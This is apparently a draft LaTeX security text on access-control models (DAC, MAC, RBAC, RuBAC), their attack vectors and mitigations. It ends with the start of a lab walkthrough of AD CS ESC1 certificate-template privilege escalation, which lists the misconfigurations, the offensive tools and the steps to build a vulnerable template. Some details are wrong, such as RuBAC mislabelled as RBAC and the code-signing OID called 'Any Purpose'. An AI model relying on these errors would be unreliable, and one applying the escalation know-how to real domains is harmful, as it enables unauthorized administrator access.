Implement Strong Access Controls:
\begin{itemize}
    \item Multi-Factor Authentication (MFA): Adding an extra layer of authentication beyond passwords makes it harder for attackers to gain access.
    \item Least Privilege Access: Grant users only the minimum necessary permissions to perform their tasks.
    \item Regular Access Reviews: Periodically review and update user permissions to ensure they are still appropriate.
\end{itemize}

Vulnerability Management:
\begin{itemize}
    \item Regular Security Assessments: Conduct regular vulnerability scans and penetration tests to identify and address weaknesses.
    \item Patch Management: Keep software and systems up-to-date with the latest security patches to address known vulnerabilities.

\end{itemize}

Network Security:
\begin{itemize}
    \item Network Segmentation: Divide the network into smaller, isolated segments to limit the impact of a breach.
    \item Firewalls and Intrusion Detection/Prevention Systems (IDS/IPS): Use these tools to monitor network traffic and block malicious activities.
\end{itemize}

Employee Training:
\begin{itemize}
    \item Cybersecurity Awareness Training: Educate employees about common attack vectors, such as phishing and social engineering, to help identify and avoid threats.
    \item Incident Response Training: Train employees on how to respond to security incidents and report suspicious activities.
\end{itemize}

Continuous Monitoring and Alerting:
\begin{itemize}
    \item Security Information and Event Management (SIEM): Use SIEM tools to collect and analyze security logs for suspicious activities.
    \item Intrusion Detection/Prevention Systems (IDS/IPS): Deploy IDS/IPS to monitor network traffic for malicious activities.
\end{itemize}

Incident Response Plan (IRP):
\begin{itemize}
    \item Develop a Comprehensive Plan: Outline the steps to take in the event of a security breach to minimize damage and ensure a swift recovery.
\end{itemize}

Supply Chain Security:
\begin{itemize}
    \item Assess Vendor Security: Evaluate the security practices of third-party vendors and suppliers.
    \item Secure Third-Party Access: Implement strict access controls for third-party vendors to prevent unauthorized access to your systems.
\end{itemize}

Benefits or RuBAC
Rule-Based Access Control (RuBAC) offers several key benefits, including enhanced security through precise access control, improved scalability, better auditability, and reduced administrative overhead. By implementing RuBAC, organizations can enforce strict access policies, simplify access management, and streamline compliance efforts

\textbf{Precise Access Control:}
RuBAC allows organizations to define rules that dictate who can access specific resources based on various conditions (e.g., time of day, user role, location). This granular control minimizes the risk of unauthorized access and data breaches. 

Reduced Risk of Data Breaches:
By limiting access to only those who need it, RuBAC reduces the potential attack surface and lowers the likelihood of sensitive data falling into the wrong hands. 

Centralized Rule Management:
RuBAC allows for central management of access rules, making it easier to apply policies across different departments, devices, and locations. 

Simplified Onboarding/Offboarding:
Adding or removing access for users is simplified through rule updates, reducing the administrative burden of managing individual permissions. 

Detailed Audit Trails:
Every access decision in RuBAC is based on a rule, providing a clear and auditable trail of user activity. 

Compliance Support:.
The auditability of RuBAC makes it easier to demonstrate compliance with various regulatory and industry standards. 

Centralized Management:
Instead of managing permissions on a user-by-user basis, RuBAC allows for centralized rule management, streamlining administrative tasks.

Automated Rule Updates:
When rules need to be updated, it can often be done centrally, reducing the need for manual adjustments and minimizing the risk of human error. 
Other Benefits:
Improved Operational Efficiency:
By granting users access only to the resources they need, RuBAC can streamline workflows and improve overall operational efficiency. 

Simplified Access Management:
RuBAC simplifies access management by providing a structured and consistent approach to granting and revoking permissions. 

Reduced Costs:
By optimizing resource access and reducing the risk of security incidents, RuBAC can lead to cost savings for the organization.
 


Active Directory uses ACLs, which are lists of \textit{Access Control Entries (ACEs),} to implement DAC. Each ACE specifies which user or group has what level of access (read, write, execute) that particular resource.

\subsubsection{Flexibility and Control}
DAC provides flexibility for users and administrators to manage access to their own data and resources without needing constant IT intervention.

\subsubsection{Potential Security Considerations for Defenders}
While flexible, DAC can be less secure than other access control models (such as \textit{Mandatory Access Control (MAC))} if not managed carefully and properly, as incorrect settings can lead to unintended consequences.

\subsubsection{Abusing Discretionary Access Control (DAC)}
Attackers leverage various entry points, also known as \textit{attack vectors,} to exploit vulnerabilities and gain toehold within a network. These vectors can range from technical flaws such as software backdoors and misconfigurations in systems to human-centric methods such as spearphishing and reuse of passwords.

With DAC, attackers try to manipulate permissions to escalate their privileges or access sensitive data.

Common DAC abuses include, but are not limited to:
\begin{itemize}
    \item Software Vulnerabilities: Exploiting bugs or weaknesses in software to gain initial access.
    \item Misconfigured Systems: Taking advantage of improperly configured systems, such as open network ports or weak access controls.
    \item Phishing: A deception tactic that involves deceiving users into revealing sensitive information through fraudulent emails, attachments, or websites.
    \item Malware: Introducing malicious software to compromise systems and exfiltrate data.
    \item Credential Stuffing: Using stolen usernames and passwords from other breaches to access accounts.
    \item Weak, Default, Exposed, or Reused Passwords: Utilizing easily guessed or reused passwords and default credentials. More often than not, a user will reuse the same password across many various platforms online (e.g., use the same password to log in to banking account and Facebook account).
    \item Social Engineering: Also known as \textit{human hacking,} social engineering attacks aim to manipulate individuals to perform actions that compromise overall security.
    \item Physical Access: Gaining physical access to devices to exploit vulnerabilities or install malware.
\end{itemize}

\subsection{DAC Attack Vectors}
In systems with Discretionary Access Control (DAC), attacker might exploit the following to gain unauthorized access or escalate privileges to laterally move throughout the domain network.

\subsubsection{Abusing Improperly Configured Permissions:}
If permissions are not set correctly, attackers can leverage overly permissive access to escalate their privileges.

\subsubsection{Exploiting Vulnerabilities in Access Control Mechanisms:}
Attackers can find weaknesses in the way access is granted and revoked, allowing them to bypass and evade security control mechanisms.

\subsubsection{Manipulating User Roles and Groups:}
Attackers might try to elevate their access by gaining control of user accounts with higher privileges or by joining privileged groups.

\subsubsection{Bypassing Authentication:}
If authentication mechanisms are weak, attackers can try to bypass and evade them to gain initial access.

\subsubsection{Utilizing Misconfigured Cloud IAM Roles in Active Directory for Cloud:}
In AD cloud-based environments (namely \textit{Azure AD, or AAD),} attackers might exploit overly permissive \textit{Identity and Access Management (IAM)} roles and policies.

\textbf{Example:}
Imagine an attacker who gains access to a user account with limited permissions. If that user has access to a file with overly permissive DAC settings, the attacker might be able to escalate their privileges and gain access to other parts of the restricted network.

\subsection{DAC Attack Vector Mitigation Strategies}
\subsubsection{\textbf{Regular Security Audits:}}
Defenders must regularly review and assess access controls to identify and correct misconfigurations.

\subsubsection{\textbf{Principle of Least Privilege (PoLP):}}
Defenders need to ensure that users and applications only have the minimum necessary permissions, and nothing more than what they're required to have to complete their tasks.

\subsubsection{\textbf{Strong Authentication and Authorization:}}
Defenders must implement authentication and authorization mechanisms to prevent unauthorized access to resources.

\subsubsection{\textbf{Patch Management Cadence:}}
Defenders must adhere to stringent patch management policies and keep systems and software up-to-date with the latest security patches to address known vulnerabilities.

\subsubsection{\textbf{User Education and Awareness:}}
Defenders must train users and staff to recognize and avoid phishing attacks and other social engineering attack tactics.

\subsubsection{\textbf{Implement Access Control Best Practices:}}
Follow industry best practices for setting up and managing access control in your AD environment(s).

\section{Mandatory Access Control (MAC) Model}
\textit{Mandatory Access Control (MAC)} is an access control security mechanism model where access to resources is strictly controlled based on a system-wide security policy defined by a central authority, rather than by individual resource owners. This means users cannot override or change the access permissions set by the central authority, ensuring a high level of security and account scrutiny to prevent unauthorized access. A detailed explanation is offered below.

\subsection{Key Aspects of MAC}
\subsubsection{\textbf{Centralized Policy:}}
Access decisions are made based on a pre-defined security policy enforced by the central authority, not by the users.

\subsubsection{\textbf{Security Labels:}}
Both users and resources are assigned security labels (e.g., classification levels like "Confidential," or "Secret").

\subsubsection{\textbf{Strict Enforcement:}}
Access is granted only when the user's clearance level matches or exceeds the resource's security label.

\subsubsection{\textbf{No User Control:}}
Individual users cannot modify the permissions for their resources, unlike in the Discretionary Access Control (DAC) model.

\subsubsection{\textbf{High Security:}}
MAC is often used in environments requiring high security, such as government, military, and some financial institutions.

\subsubsection{\textbf{Multi-Level Security (MLS):}}
MAC is frequently implemented in MLS systems, which manage data with different security classifications.

\subsection{How MAC Works}
\begin{enumerate}
    \item Central Authority: A security administrator defines the overall security policy, or the user's upper management decides.
    \item User and Resource Classification: Users are assigned security clearance levels, and resources are assigned appropriate security classifications.
    \item Rule Enforcement: The system checks the user's clearance and the resource's classification to determine if access should be granted.
    \item No User Override: Users cannot change the security labels or alter the access rules.
\end{enumerate}

\textbf{Examples of MAC in Use:}
\begin{itemize}
    \item Government and Military: Protecting classified documents and information systems.
    \item Financial Institutions: Securing sensitive financial data and user transactions.
    \item Healthcare: Protecting patient records and medical information.
\end{itemize}

\subsection{MAC Attack Vectors}
Attackers utilize various entry points and attack vectors to bypass Mandatory Access Controls (MAC) systems, aiming to gain that initial toehold into the domain network. Similar to DAC, these methods exploit vulnerabilities in the MAC system's security posture, including technical flaws, human errors, and weaknesses in the implementation of security policies. It is crucial that defenders understand these attack vectors to develop robust security strategies to protect organizational sensitive information and its critical information systems.

\subsubsection{\textit{1. Technical Vulnerabilities:}}
\textbf{Software Exploits:}
Attackers exploit bugs and weaknesses in software applications, operating systems, and network protocols to gain initial access.

\textbf{Unpatched Systems:}
Vulnerabilities in unpatched systems provide readily available entry points for attackers to leverage and exploit.

\textbf{Weak, Default, Exposed, or Reused Passwords:} Stolen or weak passwords, default and reused, or exposed credentials, and improperly stored credentials can be easily exploited if not hardened.

\textbf{Network-based Attacks:}
Attackers can abuse network protocols, such as TCP/IP, to launch attacks like \textit{Man-in-the-Middle (MiTM)} attacks or \textit{Denial of Service (DoS)} attacks.

\textbf{SQL Injection (SQLi) Attack:}
Attackers can inject malicious and arbitrary SQL code into input fields to manipulate database queries and gain unauthorized access to sensitive data.

\textbf{Cross-Site Scripting (XSS) Attack:}
Attackers can also inject malicious scripts into websites to steal users data or hijack user sessions.

\subsubsection{\textit{2. Human-Based Attacks:}}
\textbf{Phishing:}
Attackers impersonate trusted individuals or organizations to trick users into revealing sensitive information such as passwords or account details. 

\textbf{Social Engineering:}
Attackers manipulate users into divulging confidential information or granting access through deception and psychological manipulation. 

\textbf{Insider Threats:}
Malicious or negligent insiders can exploit their access privileges to bypass MAC and access sensitive resources. 

\subsubsection{\textit{3. Supply Chain Attacks:}}
\textbf{Compromised Third-Party Components:}Attackers target third-party vendors or suppliers with weak security to gain access to the main organization's systems. 

\textbf{Malware in Software Updates:}
Attackers can embed malware into software updates, which are then distributed to a wide range of users. 

\subsubsection{\textit{4. Physical Access:}}
\textbf{Physical Security Breaches:}
Attackers can bypass physical security measures to gain access to systems and devices. 

\subsection{MAC Attack Vector Mitigation Strategies}

\subsubsection{\textbf{Reduce Attack Surface:}}
Implement security controls to reduce the number of entry points and vulnerabilities. 

\subsubsection{\textbf{Strong Authentication and Authorization:}}
Enforce strong passwords, multi-factor authentication, and granular access controls. 

\subsubsection{\textbf{Regular Security Audits:}}
Conduct regular security audits to identify and address vulnerabilities. 

\subsubsection{\textbf{Patch Management Cadence:}}
Implement a robust patch management process to quickly address software vulnerabilities. 

\subsubsection{\textbf{Security Awareness Training:}}
Educate users about common attack vectors and best practices for security. 

\subsubsection{\textbf{Incident Response Plan:}}
Develop and test an incident response plan to quickly detect, contain, and recover from attacks. 

\section{Role-Based Access Control (RBAC) Model}
Role-Based Access Control (RBAC) is a security approach that restricts system access based on a user's role within an organization. Instead of assigning permissions directly to individual users, RBAC groups users into roles, and these roles are then granted specific permissions. This approach simplifies access management, enhances security, and promotes compliance by ensuring users only have access to the resources necessary for their job functions, according to cybersecurity and access management companies. A more detailed explanation is offered below.

\subsection{Key Aspects of RBAC}
\begin{itemize}
    \item Users: Individuals who need access to the system. 
    \item Roles: Predefined sets of permissions that define what a user can do within the system. 
    \item Permissions: Specific access rights associated with resources, such as reading, writing, or modifying data. 
\end{itemize}

\subsection{How RBAC Works}
\begin{enumerate}
        \item Define Roles: Identify the different roles within the organization and their corresponding responsibilities. 
        \item Assign Permissions: Grant specific permissions to each role, defining what actions users in that role can perform. 
        \item Assign Users to Roles: Assign users to the appropriate roles based on their job functions. 
\end{enumerate}

\subsection{Benefits of RBAC}
\textbf{Improved Security:}
Restricts access to sensitive data and resources, minimizing the risk of unauthorized access. 

\textbf{Simplified Management:}
Makes it easier to manage user access rights, especially in large organizations. 

\textbf{Enhanced Compliance:}
Helps organizations meet regulatory requirements by providing a structured and auditable access control mechanism. 

\textbf{Increased Efficiency:}
Ensures users have the access they need to perform their jobs, improving overall productivity. 

\textbf{Scalability:}
Easily adaptable to changing organizational structures and user needs. 

\subsection{Example of RBAC In Use}
In a company, a sales representative might be assigned the role of "Sales Rep," which grants them access to customer data and sales reports; however, they might not have access to the company's financial records or HR information, which are managed by other roles.

\subsection{RBAC Entry Points and Attack Vectors}
Attackers utilize various entry points and exploit weaknesses in Role-Based Access Control (RBAC) to compromise systems and gain unauthorized access. Common entry points include vulnerabilities in software, misconfigured systems, and social engineering tactics. RBAC, when poorly implemented or bypassed, can lead to attackers gaining elevated privileges or accessing sensitive data. 

\textbf{Unpatched Software:}
Outdated software and operating systems are prime targets for attackers due to known vulnerabilities. 

\textbf{Misconfigured Systems:}
Improperly configured firewalls, routers, and other security settings can create pathways for attackers to exploit. 

\textbf{Open Ports and Weak Protocols:}
Unsecured ports and outdated protocols can be exploited by attackers to gain access to systems. 

\textbf{Weak Passwords and Credentials:}
Compromised credentials, whether through phishing or brute-force attacks, provide attackers with a direct path into systems. 

\textbf{Phishing and Social Engineering:}
Deceptive emails, messages, or websites designed to trick users into revealing sensitive information or downloading malicious files are common attack vectors. 

\textbf{Malware}:
Viruses, worms, ransomware, and other malware can be introduced through various means, including infected downloads and malicious websites. 

\textbf{APIs:}
Attackers can exploit vulnerabilities in APIs to access sensitive data, disrupt services, or escalate privileges. 

\textbf{Insider Threats:}
Malicious or negligent insiders can pose a significant risk, especially if they have elevated access privileges. 

\textbf{Bypassing RBAC:}
Attackers can exploit weaknesses in RBAC implementation to gain access to resources they should not be authorized to access. 

\textbf{Privilege Escalation:}
Once inside a system, attackers may attempt to escalate their privileges to gain access to more sensitive data or systems.

\textbf{Misconfigured Roles:}
Incorrectly configured roles within RBAC can grant users excessive permissions, allowing them to perform actions beyond their job requirements. 

\textbf{Lack of Least Privilege}:
Failure to adhere to the principle of least privilege, where users are only granted the minimum necessary access, can lead to attackers exploiting excessive permissions. 

User accounts with weak passwords or those compromised through phishing attacks can be used to bypass RBAC and gain unauthorized access. 

\subsection{RBAC Attack Vector Mitigation Strategies}
\textbf{Regular Software Updates:}
Patching software and operating systems promptly is crucial to address known vulnerabilities. 
    
\textbf{Secure Configuration:}
Properly configuring firewalls, routers, and other security systems is essential to prevent attackers from exploiting misconfigurations. 
    
\textbf{Strong Authentication:}
Implementing strong authentication methods, including multi-factor authentication (MFA), can help prevent unauthorized access. 
    
\textbf{User Awareness Training:}
Educating users about phishing, social engineering, and other attack vectors can help them identify and avoid potential threats. 

\textbf{RBAC Implementation:}
Properly implementing RBAC, adhering to the principle of least privilege, and regularly reviewing user roles can help minimize the impact of potential attacks. 

\textbf{Regular Security Audits:}
Conducting regular security audits can help identify vulnerabilities and weaknesses in the system, including RBAC implementations. 

\textbf{Monitoring and Logging:}
Implementing robust monitoring and logging systems can help detect suspicious activity and identify potential attacks. 

\section{Rule-Based Access Control (RuBAC)}
Rule-based access control (RuBAC) is a security model where access to resources is determined by predefined rules and conditions, rather than by individual user identities or roles. These rules specify which users or groups can access specific resources based on various attributes, environmental conditions, or other criteria. A more detailed explanation is offered below.

Key Concepts:
Rules:
.
These are the core of RBAC. They are logical statements that define access conditions. For example, a rule might state "Users in the 'Finance' department can access the 'Payroll' folder, but only during business hours". 
Attributes:
.
RBAC relies on attributes associated with users, resources, and the environment to evaluate access requests. Examples include user roles, department, time of day, location, device type, or even specific data within a resource. 
Access Decisions:
.
When a user tries to access a resource, the system evaluates the request against the defined rules. If the user's attributes and the resource attributes meet the criteria specified in the rules, access is granted. Otherwise, access is denied. 
How it Works:
1. Rule Definition:
.
Administrators define rules that specify which users or groups can access specific resources based on various conditions. 
2. Attribute Evaluation:
.
When a user attempts to access a resource, the system collects relevant attributes associated with the user, the resource, and the environment. 
3. Rule Enforcement:
.
The system compares the collected attributes against the predefined rules. 
4. Access Control:
.
Based on the rule evaluation, the system either grants or denies access to the resource. 
Example:
Imagine a company with a database containing sensitive financial information. They might implement RBAC with the following rules: 
Rule 1: "Users with the 'Finance' role can access the 'Financial Data' table." 
Rule 2: "Users with the 'HR' role can access the 'Employee Salaries' table." 
Rule 3: "Users with the 'Marketing' role cannot access either table." 
When a user from the 'Finance' department attempts to access the 'Financial Data' table, the system will evaluate their role against the rules. Since Rule 1 matches their attributes, they will be granted access. Conversely, a user from the 'Marketing' department attempting to access the same table will be denied access because Rule 3 will prevent it. 
Advantages of RBAC:
Granular Control:
RBAC allows for fine-grained access control, enabling administrators to define very specific rules for access. 
Flexibility and Scalability:
RBAC is more flexible than role-based access control (RBAC) as it allows for dynamic adjustments to access based on changing conditions. 
Reduced Administrative Burden:
Once the rules are defined, the system automatically manages access, reducing the need for manual permission management. 
Improved Security:
RBAC can help prevent unauthorized access to sensitive resources by implementing strict access controls. 

\subsection{RuBAC Attack Vectors}
Attack vectors are the pathways attackers use to exploit vulnerabilities and gain unauthorized access to systems. For attackers using rule-based access control, entry points can include exploiting weak or misconfigured rules, bypassing access controls through privilege escalation, or leveraging social engineering to manipulate legitimate users into granting unauthorized access. A more detailed explanation is offered below.

Entry Points for Attackers Exploiting Rule-Based Access Control:
Exploiting Weak or Misconfigured Rules:
.
Attackers can identify and exploit overly permissive or poorly defined access control rules. This could involve rules that grant excessive privileges to certain users or roles, or rules that are not adequately updated to reflect changing system requirements. 
Bypassing Access Controls:
.
Attackers may attempt to bypass access control mechanisms altogether, such as by finding vulnerabilities in the underlying system that allow them to bypass the rule-based system. They may also try to escalate their privileges through techniques like SQL injection or other forms of code injection. 
Social Engineering:
.
Attackers can manipulate legitimate users into granting them unauthorized access. This could involve phishing attacks to steal credentials, tricking users into running malicious software, or exploiting trust relationships to gain access to systems or data. 
Insider Threats:
.
Attackers may be able to exploit existing access rights, or use their position of trust within an organization to gain unauthorized access, potentially bypassing the rule-based system entirely. 
Zero-day Exploits:
.
Attackers may be able to exploit vulnerabilities in the access control system itself, or in the underlying operating system or applications, that are previously unknown (zero-day) to gain access. 
Attack Vectors in Rule-Based Access Control:
Exploiting Vulnerabilities:
Attackers may exploit vulnerabilities in the software or hardware that implements the rule-based access control system. This could involve vulnerabilities in the access control engine itself, or in the underlying operating system or applications that the access control system relies on. 
Compromising Credentials:
Attackers may try to obtain legitimate user credentials through various means, such as phishing, malware, or data breaches. Once they have valid credentials, they can use them to access systems and data based on the rules defined for that user. 
Abusing Existing Permissions:
Attackers may attempt to abuse existing permissions granted to legitimate users. This could involve using stolen or compromised credentials, or exploiting situations where users have unnecessarily broad permissions, according to Palo Alto Networks. 
Bypassing Security Measures:
Attackers may attempt to bypass security measures implemented by the rule-based access control system, such as multi-factor authentication or encryption. 
In essence, attackers will try to find the weakest link in the security chain. This could be a poorly configured rule, a vulnerable piece of software, or a trusting user who can be tricked into revealing their credentials or granting access. 




 
 

 


Information Security Access Controls
Access Control Concepts
Policies, Models, and Mechanisms of Access Control

Temporal Constraints
Access Control Workflow
Chinese Wall
Firewall Security

Introduction to Firewalls
Inner-Workings of a Firewall
Types of Firewalls
	Next Generation Firewall (NGFW)
	Cloud Firewall
	Virtualized Firewall
	Client-Based Firewall
Proxy Servers
Inner-Workings of a Proxy Server
Advantages and Disadvantages of Proxying
Firewall Applications
Active Directory: Attacks, Defenses, and Tools

\section{Attack Categories}

\subsection{Initial Access}
\subsubsection{Weak Password Policies}
\subsubsection{Excessive User Privileges}
\subsubsection{Poorly Managed Login Details}
\subsubsection{Insecure Account Settings}
\subsubsection{Phishing Campaigns}
\subsubsection{RDP Attacks}
\subsubsection{Vulnerability Exploitation}
\subsubsection{Supply-Chain Compromise}
\subsection{Credential Access}
\subsubsection{}
\subsubsection{}
\subsubsection{}

\subsubsection{}


\subsection{Privilege Escalation}
\subsection{Lateral Movement}
\subsection{Persistence}
\subsection{Defense Evasion}
\subsection{Impact}


\section{AD Certificate Exploitation: ESC1-Deep Dive}

\subsection{1. Introduction to ESC1}
Active Directory Certificate Services (AD CS) extends an Active Directory environment with a \textit{Public Key Infrastructure (PKI)}, issuing, managing, and validating digital certificates all the way from when the certificate has been authorized and released to the requester throughout its lifecycle until its expiry hits. These certificates enable secure communications, secure log on to a domain, code signing, digital signatures, and more.

%AD CS is designed to strengthen security, misconfigurations can introduce dangerous privilege escalation pathways. One of the most critical and commonly abused pathway of these is \textit{ESC1}-short for \textit{Enterprise Security Certificate vulnerability #1} in the ADCS Attack Path framework.

Some common types of certificate templates include:

\begin{enumerate}
    \item \textbf{User Certificate} – Used for authenticating users.
    \item \textbf{Computer Certificate} – Used for authenticating computers.
    \item \textbf{Web Enrollment Certificate} – Used for enrolling via the web.
    \item \textbf{Code Signing Certificate} – Used to sign software or applications.
\end{enumerate}

\subsubsection{Table of Content}

\begin{itemize}
    \item Active Directory Certificate Services (AD CS) – Certificate Flow
    \item Understanding Enrollment Right Misconfigurations
    \item Prerequisites
    \item Lab Setup
\end{itemize}
\textbf{Enumeration \& Exploitation}

\begin{itemize}
    \item Methods 1: Certipy-ad
    \item Methods 2: Metasploit
    \item Methods 3: certipy.exe
\end{itemize}
\textbf{Mitigation Strategies}

\subsubsection{Active Directory Certificate Services (AD CS) – Certificate Flow}

\textbf{Setup ->}\textbf{ Request  ->}\textbf{ Approval ->}\textbf{ Use ->}\textbf{ Renewal or Revocation ->}\textbf{ Validity Check}


\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{cssetup.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\textbf{Setup}
Initially, the organization sets up a Certificate Authority (CA) – this acts like an official office that issues digital identity cards (certificates) to users and computers.

\textbf{Request}
A user or device asks the CA:

“\textit{Please give me a certificate}.”

This can happen:

\begin{itemize}
    \item \textbf{Automatically} (via Group Policy for domain-joined systems)
    \item \textbf{Manually} (using tools like MMC, certreq, or web enrollment)
\end{itemize}

\textbf{Approval}
Next, the CA checks:

\textit{“Is this a valid and authorized request?”}

If yes, it \textbf{signs} the certificate (just like stamping and issuing an ID card) and sends it back to the requester.

\textbf{Use}
Once issued, the certificate is now used for secure purposes, such as:

\begin{itemize}
    \item Logging into domain computers
    \item Enabling HTTPS on web servers
    \item Email encryption and signing
    \item VPN and Wi-Fi authentication
    \item IPsec communication
\end{itemize}

\textbf{Renewal or Revocation}

\begin{itemize}
    \item \textbf{Renewal}: Before a certificate expires, the system or user can request a new one.
    \item \textbf{Revocation}: If the certificate is compromised or no longer needed, the CA can revoke (cancel) it.
\end{itemize}

\textbf{Validity Check}
Other systems regularly check:

\textit{“Is this certificate still valid and trusted?”}

They look at:

\begin{itemize}
    \item \textbf{Certificate Revocation Lists (CRL)}
    \item \textbf{Online Certificate Status Protocol (OCSP)}
\end{itemize}
to verify if the certificate is still good or has been revoked.

In this article, we will exploit misconfigured ADCS certificate template to request a certificate for any user, such as \textbf{Administrator}, and use it for authentication

\subsubsection{Understanding Enrollment Rights Misconfiguration}

To begin with, Enrollment Rights Misconfiguration occurs when an Active Directory Certificate Services (AD CS) template has the following misconfigurations:

\begin{itemize}
    \item ENROLLEE\_SUPPLIES\_SUBJECT → Allows users to specify their own Subject Alternative Name (SAN).
    \item Any Purpose (EKU: 1.3.6.1.5.5.7.3.3) → Allows authentication with the certificate.
    \item No Manager Approval Required → Directly issues certificates.
    \item Accessible to Low-Privilege Users → Any domain user can request a certificate.
\end{itemize}
Therefore, if any of these are seen this means, any authenticated user can request a certificate for another user like Administrator and then use that certificate for authentication and privilege escalation.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{policies.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The image given below will help you to understand the type of policy that is used to certificate purpose. For example, here the given certificate is design for clients or user authentication.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{eku.png}
    \caption{Enhanced Key Usage Client Authentication extension-only properties}
\end{figure}

\subsubsection{Prerequisites}

\begin{itemize}
    \item Windows Server 2019 as Active Directory that supports PKINIT
    \item Domain must have Active Directory Certificate Services and Certificate Authority configured.
    \item Kali Linux
    \item Tools: Rubeus.exe, certify.exe, Impacket, certipy-ad, Metasploit
\end{itemize}

\subsubsection{Lab Setup}

To simulate the vulnerability in a practical environment, we will create a user named ‘aarti and add her to the \textbf{Domain Users} group, specifically to the \textbf{IGNITEDomain Users} group, where ‘aarti’ will be a member. This setup will demonstrate how attackers can exploit misconfigurations in an Active Directory Certificate Services (AD CS) template, specifically focusing on \textbf{AD CS ESC1 Certificate Exploitation} to escalate privileges.

\paragraph{Create the AD Environment:}

To simulate an Active Directory environment, you will need a Windows Server configured as a Domain Controller (DC) and a controlled Active Directory lab that includes a vulnerable certificate template.

\paragraph{Domain Controller \& AD CS Configuration:}

\begin{itemize}
    \item Install Windows Server (2016 or 2019 recommended) that supports PKINIT.
    \item Promote it to a Domain Controller by adding the \textbf{Active Directory Domain Services}
    \item Set up the domain (e.g., \textbf{Ignite}).
    \item The domain must have \textbf{Active Directory Certificate Services (}\href{https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/}{\textbf{Read more}}\textbf{)}and a \textbf{Certificate Authority}
\end{itemize}

\subparagraph{\textbf{Walkthrough: Creating a Vulnerable Certificate Template}}

Let’s have a walkthrough of the lab setup following with the Creation of a Vulnerable Certificate Template in AD CS we already discussed.

\subparagraph{\textbf{Step-by-Step: Configure the ESC1-Vulnerable Certificate Template}}

we will configure a misconfigured certificate template in Active Directory Certificate Services (AD CS) that allows for ESC1 exploitation. This involves duplicating an existing certificate template, enabling subject name supply, and setting permissions that make it vulnerable.

\textbf{Open certsrv.msc} (Certificate Authority) by using the run box in your windows AD CS

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certsvc.png}
    \caption{Opening the Certificate Manager via Run in Windows}
    \label{fig:placeholder}
\end{figure}

Navigate to Certificate Templates → \textbf{Manage}

\begin{figure}
    \centering
    
\includegraphics[width=0.85\linewidth]{cammc.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

You will see the list of various certificate templates, Duplicate the code signing template by simply clicking duplicate template

\begin{figure}
    \centering
